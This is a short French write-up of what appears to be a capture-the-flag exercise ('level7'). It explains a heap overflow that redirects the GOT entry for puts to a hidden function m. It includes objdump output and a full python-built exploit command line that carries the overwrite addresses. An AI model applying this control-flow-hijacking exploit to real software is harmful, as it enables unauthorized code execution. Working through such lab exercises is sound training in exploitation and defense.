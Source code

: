 Cette exécutable est composé d'une fonction main qui va allouer de 8 octets pour pouvoir stocker dans les 4 premiers octets un chiffre et dans les 4 octets restant un pointeur pointant à un autre malloc de taille 8 octets.

Avec le premier strcpy on va pouvoir overflow et modifier la valeur stockée par `ptr_to_buffer2`, pour qu'elle pointe autre chose que `buffer2` mais par exemple l'adresse de puts pour la remplacer via le deuxième strcpy par l'adresse de `m`. Et lorsque puts sera appele à la fin du main. Il n'appellera pas puts de la libc mais la fonction `m`.

![Ghidra Level 7, fonction main et m](./ghidra_level7.png)

Donc en premier lieu, on recupère l'adresse de puts (0x08049928)
```
$ objdump -R ./level7
DYNAMIC RELOCATION RECORDS
OFFSET   TYPE              VALUE
08049904 R_386_GLOB_DAT    __gmon_start__
08049914 R_386_JUMP_SLOT   printf
08049918 R_386_JUMP_SLOT   fgets
0804991c R_386_JUMP_SLOT   time
08049920 R_386_JUMP_SLOT   strcpy
08049924 R_386_JUMP_SLOT   malloc
08049928 R_386_JUMP_SLOT   puts
0804992c R_386_JUMP_SLOT   __gmon_start__
08049930 R_386_JUMP_SLOT   __libc_start_main
08049934 R_386_JUMP_SLOT   fopen
```
Puis l'adresse de `m` (0x080484f4)
```
$ objdump -t ./level7
SYMBOL TABLE:
08048440 g     F .text	00000000              _start
080486d8 g     O .rodata	00000004              _fp_hw
08049960 g     O .bss	00000050              c
080484f4 g     F .text	0000002d              m
08049940 g       *ABS*	00000000              __bss_start
```
On va construire nos arguments:
 - Le premier qui va overflow et pointer vers l'adresse de puts.
 - Et le deuxième qui va modifier la valeur dans puts pour remplacer par `m`

```
$ ./level7 `python -c 'print "a"*20+"\x28\x99\x04\x08"'`  `python -c 'print "\xf4\x84\x04\x08"'`
```
